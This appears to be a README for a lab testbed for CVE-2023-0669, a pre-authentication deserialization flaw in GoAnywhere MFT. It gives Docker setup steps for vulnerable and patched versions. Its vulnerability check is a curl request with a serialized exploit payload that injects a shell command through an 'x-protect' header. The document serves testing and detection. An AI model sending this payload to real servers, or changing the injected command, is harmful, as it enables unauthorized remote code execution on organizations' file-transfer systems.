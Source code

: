 # GoAnywhere MFT CVE-2023-0669

## Description of Vulnerability

GoAnywhere MFT RCE vulnerability CVE-2023-0669.

GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to
deserializing an arbitrary attacker-controlled object.

All versions prior to 7.1.1 are affected. Update GoAnywhere MFT to a fixed version, i.e. 7.1.2 or later

## Launch Testbed

### Vulnerable setup

1. Pull the image

```sh
docker pull kutzhanov/goanywhere:6.8.6
```

2. run container

```sh
docker run --rm --publish 38000:8000 kutzhanov/goanywhere:6.8.6
```

2. The instance will be available on [http://localhost:38000](http://localhost:38000)
3. Install goanywhere mft, fill license code[www.goanywhere.com/trial](www.goanywhere.com/trial) and create the
   administrator account



### Non-vulnerable setup

Repeat the process with a fixed version:

```sh
docker pull helpsystems/goanywhere-mft:7.1.3
docker run --rm --publish 38000:8000 helpsystems/goanywhere-mft:7.1.3





## Vulnerability Test

You can use the following command to check whether the instance is vulnerable or not

```
curl -s -H 'x-protect: echo goanywhere_vulnerability' --data-binary 'bundle=Jh88_jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS_fjlP7wTTEg2-Jx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b_gYKBi2-ny7fc2lOHNgalYV13mQzCTs0EgEUE9AuDUIMcFYx00pv4g4EOgEjeWbAx40rTtRby71AxapyXKy-4XChDHVlPB1AV3njBKGWT6gHdPxT8hb75Ycrpjdk9EQ1HW4WJiz4uaVBu7hXm_Eag15IpIWgojFy4hst8-q9YMms8Omq5lbdLabUHRcJAd6rLu6QrPLepYXQgGfMi_Qmj0qf5vXLfSX20cSBT_IEBlzzBR3lq_hiqrAfmZZCV3Y1HeMPpaMsmzL5zM1VTMX-5Pi5JGKMJ2Al2BZVZUUZQNqrcnueMVl1ZNhGMJ8eSFBCb4WGaNrhfgQ3sWUW3_A_ln_XwLi8z6XCOT5sJmFYZXBC4vYtY4leatX_o__lJHYPuA_TEmuEmEhIccj5Ou2xOvazmw9oXVUbM0vkPsb1UDyyTF0Ee85W0CUUCzb3rouvUDFaOZZLe08Z_Km2LgSq9Wr3fKojx_UevkOkOfwfiPlnJcQTRr45useRtOlHrJpP1iWSLi2vwK8bojMdCWzF13H8MmDjrJBCbcbChsXQkNcAJqkYa3y2SZXkwISRigFVLRnjDbyQLqLAzE0inCSf7NF9abKU5ZW8yMgF6NT802MJCz0gRJD6zLbFZSBYfGlzFJmu9-ZWYVywkwmu3xQrrA_tCRdqvd5zeHd3CgWOzBjOg55_iBNcPZOPYhMXD1ZEpPyG0CQpJfIUiblo4gGV0op-Mb2z5HIuvJ-l_YCxoYJi5RCdtgGoSmIo9wN59S0PeI6LI69EsoquDh7EA9Z7pc6XGk6rrbsJoFcV-lp_73dwmOH1U6pZRcEeMYgrB3n_R0BsoYHTika_iGEmmYv1CgBDfMlmVdQbtefAwh_AcJ9pyNACTwWdXQ0xmto3YYLbizDnmZ--NeiQ_534fTrGfjcIsbLgEnHcpG7Fwng72m7pHVy5LpurnRJXJyFBJW9IUF0vwH_UDZtAfeBK4kMbkuJrCTtQdyCks5SjfQWTArKeNGiKbGWReNhOnUnK8A2sxiYtvqlUi01mfOIfoc-9Lp6wXEBrNzWHH0zPWu4SNQmhR-JwmvFeIErraf83vz0_sRoU7IcSqKEF5zFjFF8n1oWqwBP5a3s_fKgbQ_UA74vmFh5cc_tlpBXS1oG8_EU5GAFI-woAA0Mlgkwmo-fGH1w1wB1LSOzgiT7r4QKDko55Timnwpk_D4RmXesvtu49-xyXcg4sL6NG5ujC6o5kKbTrwi7Vp8hjEx1v6nXeMfUbuWjYicH-ZIE_P_SMevvDUOQm3UZ67MbmdkReIR32TN_88A4J5dKN0QC08HLkYNSjsRp7XyXbSi5dZp3eQ6zkW9KuYU-S-NSBC9pV4arvsZXcwtWRTjweK49JIIgLMayI4y9TOjhg-LiwwzIlTY_t0KuzHSIYSw82LxmOeDhdQUC-sSOeV1G2sR095x3NDmfEfdvduTceU9cD3ofEFtedX5Z77aGFoVhdoG_hOjnYnaoaWYPe7JChYE0TZZfu3V7HF57X0cwoYYPDP6XzSf6kmxEWDoenYsPTmY_Evhqwp3Fhzko8_G-UR2tNH9JjIoouCEd8o8Gy7gnye2_u6wzCBuChv1yEug0miW8nSCQk69oHWeti94h1toBecBt70m8ySDHgL80vs4n5qHK2Mjv_eb3a5UrajOObvfoNMg_K85EudKBrdgW6bEV5KsZhFBDpDnxA7X8CHEHZiK4iDCFUCmSMCXQz7KqkHrcWh8l1ut7IPoxuiRhdI5wuNSw-xVmVwM1kJo5ahlOZcsARCNZ9NcAjcqojMDZjgkPo7lt-5Lrl2gPHg80YkNsfdB8Ao91vcZ6UuJ45ERB1G8V7TwxCMsHU8h8FFet1zb55rcBE-YJ5rvzaXif3OOFiS4MnA0LDszZkFJ4gW2SIMban79bz38yBnEz-au5l2SwkG7tY3DiKobiIz6ZJjOzVj2jAT7MsCpB8XNl8tCMYJHWErFrExXbosh-YvXoU8HCN_XALqBSZJyffqKu0iAYcyxc35QQl55ll-IybJU3Gu4LPGT6HXPlK3Hepmdd1ZhLzQG-adp465TzIDX-0YUK_Px-J0gmoW-kgUiGAVKrHIS4Qh-1E80u7GI_WUZTXSE7sgKUX-2qEUj6reo7Kf_4c_CZrwkA4RtoQrQMCs4Bs7dAft1eAqb9O-SDcW8kShwpUow3nz6PFKkdZ4SjYTNUjANTJT_7Yvzu-nHDPpEyriuZ4zcGKTadRgL2bbv1MwcTzJ1iCGMGXNk-sMiqOpqGdW_tAbfrGAuAjSiK5vCK4tO2xjR9qlMu9mzvC6FWXMlgoDFWbrXDSLUWWpgthJssAzniuX1iuGBlWmC7MzOCLQYyHKTIGDysqW4BgHQabqeXtqPoCLUCcCY8tlaACSFFe9ZQcQXgTHwClL5_TI2-9Cn5wIz28o-krld22hZ5KUWvXcW_278n6TxUJZPArM-KweuxdkzFYHjg1i8eZygMFz17MA9rUSTJzG7qvyXR_OIvI9EcGVP91noBQ2pN9zqFq7o81DRUmrNbNL1I4GPwK4kkLJVOJ1o6Hgw-zXmjeMveQII-aRzh-O2zZ9dpBJ8Yne7nWgeq1XAxW3A0lkqKr5hRbJD8najEI1xWvUEBHbPLD3oy4FGrs2Pegj7JlsGIwcmsQ8S_3bcp9ycdpNWXR0qgku3ltIZdFfW3Tnm-NFbfvkIRqmk8CaYsX2NlXGCJBLSt5HHioXDyUn1dRKvTpLx8aw41HqqGAACACvSWo0VLi4uXvxUZTgeA7q6BzH7KxptrTX62rBrU6R2ul5cgjTEYnakqcNUyJDjbxHBw1wY3k75erwfFj_pc6pE0PlB9zqIROk0yOiy2OWpg4KCAjryY1U0eOjnZVsoWjEuBT7Uvu0_9h04yZqToxRfu0WIODBLGJZ0lpx2bXtcaZPRFNwOFAeGHNpSY-ZO48bQR2Eo8kbB62w5DU6pKlFzCzK-bOzVvYUYDkYoQUSclOkW96M0hQ5DvJggB14AuXv0n4jsC1j_z4Yg1oeVnSbDA1PuGcAq8TovQX1KzpSHORoQFEhcclGxhc5-6kPt_cqImHd2C2UpYhVGEff3d2ShRzOETbELCR9w5OLY5EB4AxIOB9K4UUB-iqusjEmTYogjUUPhrHz1Dl88DD-W_QIR1fSpKDlCKWZXLWueZKXEFTKTIrWltCqbANJMPx5ww4Yo7jau6jZOPZWaZg_rApAJ4GhISBNRNUaRMUwRuKHrIaXBamJfkZXZNBJaUyv5uFXkCqkKlotr3JpOe8kBeFq_h-mmgM5G2pCK1LvnpIzXqMe1vPuR7om0ar4hRpV8aBlmhG9M7N2NQS50c-d96qKQQNDT_RgKslJfEPl4LuBie9IFlZ9qbpyq25XadMoDvDjuddAGb2jouTI8t1wXoK_fGMzUlPa7_Fq1yJqaeLF4gvoqZcEdocc0BZuM_8YqQGPhPRtxJ2wfnJ-9rdz58RNX8KoUnPEo7Y_GU5MqcmIsIqWgLkLHbFTytO9Xf2v90LKZoJy6vxfuD0C3ocGZ4syFrus4zZ0ydMU8L0b5A4Z9c4U7LE4kn79ujOBeseZDE1nAr2RL1c9ReAjJ6CLqpPYTihhLHglog64HMcxTGj1_fEnrNB53mzD0cw1UB5_kRE-Yr_JY0PRvYYGVfKfaXeklUVn3Rb-npVABFVQ6XrCN1dUFOhy4rUe3mZ3kyAXvjpXiRrkRnbKAk1c2ynLrIDetbNoQQGdIouuBEDX9NJIE9zKAttSQBpC5Xkoeu68oQcTU3IW_N848fuGIUsUl4oqO1wjNuG4TTBCCA82gu269_LCg5jB9JEa-DlhPzRwoGhJ4muc1ThgsINoLcevNu5iwP-ebUQfolW6ZdR3i12Eh9bZi3yiE7Sieb-dXx_qm5IrdlY0SZWKNC8OqlxVUzLaseMBE3kPrT-Dz6ClJXewCEU1vGYzPvKggCgg5clwEwsjGsOq7XYLGRJ9f5pMKZkcfO6-v4FpCk3fjHh0NDDZ8EE3i74a5fh1wVKsR2EJPpl6bEpWhMUDPtcavuTP7xbJC1sFDuLzoSE6qVXLbZFWPS6VMCEzkJ1-FxVsVE_WE4v72iygfLGZaOFgzyVOSEZAm8GThgHsxrKTb2_v5JcWLuock1Z6uva8P13htuNHACPZ3yhkXbuJ2b-6ucy2ZLurigtEDsNsmXsybmWdpS4vA6gnPDr5iSxVXz4BLyW0ShEbKLls_eJ_pH-y1b9Hw0KVVbcE05-bckumz7H-LwhcGVBsi2SKpoGSugH6gbX_fqrraMB0aC-0v6JIZ8WUNa7ElaMfJsE6XstjaE7KjXFHuhyQKeHgWKjm1oV8yLW7vRuqhs5RfWV3E09y2yASv_DY1WxMotFAqOHhz-zt3CiZCXQkPsjly3uHDKLrIjMYrHFvPPmQ8jD6AWiupBSVUi9yFnSFeZq8Ws3-Ki8JQEuWtMhCOsF5nBIb9NUifxO6sK2hUlbBVnhGV1PAz1FZ0tMHhFg7AVeviqUlePVASRtUQ-HmW9qPqH1UXiwysQAprepW6tHuExtYchRcla7ApOqUcQl1oCdQl6tsvn3ewlMTHvAyhUMjeap3yHlzUro-kFf-D285ircmCHRvoXgySqqZjO_8hkEcgBEWSp5Yn8xNZmw9PEthJzvAL2F6UfY58G_WrSIj5B-6GgHdgDVSzLiYSh_lrMFEd4QBtVYLz9KWlY5jjXxmN50RjWGhf2qx0iGrFC2ZnAwN6RxrB07Gl-nI2rAYVWoa_oIz_3s2rI7ll6fvzmdwKrSPNdcnG3MYVvTo8gAHrvhgFUje71_EgabRgOQv6XFCX6Vhsh9crycXjtISPU8ZWnf9tSQh-nUBplB2Go2WSmmLk1Rhu0deMsChn6dI7OQ-ed-36C_on1CY5bSuEkpJxxsNrcZTdmRG3KPlwHVcZ1kfFKlSTnFPjoOq1VLgLGuaOJFFiTerU2tbfj8rbgZbYOeZZToik7OirRjX_oTyKwHGQq5Y0d_W1Whwr8i5xK-V4HsdDOAOPv7NzL8-yxnL73kWP2357B_8yvUxHKjZ_ynyr--_ueBVZbOwnt4oBpbtsLh7_A6vo0MdBs2HpRRq8USpxlgN_s_2DNFRrxejgphOPDeHT-_mh7ey3lSZNMt3NU2M7lPWzWsffu5R5PXY9BxJT0PsUAgJS3i-sB5D4Fg7e4WiF83UroEYaz9mM0B-7VQ7hkqBgPEiDH2rZpUyhsG51TlYSbzb46g41vXdFpygqntOlEgBYkVbLwN3fIM9s2RL4908QD8o-ePuO-CnFL5KU5Yh7IcBx8a2FovJf07J7IoShuB2grZ7Uq8hwa5OJjZ0yN1pz1KsdT_OKONiiDiWvf67QRkrogsxA2PbFC4Qhr1ZwOnEO8fhZTFx_fdt5_z7RkjfObiDBNqGGY5iBnjxinzh67mODT_vohU7L3gPCkVnqcU2zUbiBsT-Xu0HGyQOPpBp5wS2QHln6GdmTkmARnSa4Mc1CU0x4YzmAoTU4v8xLCtucHHFHrYMB_MFJg_2rM_XxJVKjnU2ej7BFSbnyc_1XE12z9ca6dYywmwtTFtHSpJf-70SBU_nebcnTcUXMp2JTWdRUgGScybrwM4wGSYUq7THJqm297dQ9fJ9GjnWLOK3JQ7K2GjVWWmXKrlYlwKgx_3XDUUYErlZAw13_iQXLMZOUteWthVndxp9STpcQ' http://127.0.0.1:38000/goanywhere/lic/accept
```


A vulnerable instance will reply with the following message:

```
goanywhere_vulnerability
```



while a safe instance will reply with status code 400 and the following body:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en"><head id="j_id_4"><link type="text/css" rel="stylesheet" href="/goanywhere/javax.faces.resource/theme.css.xhtml?ln=primefaces-aristo" />
......
```
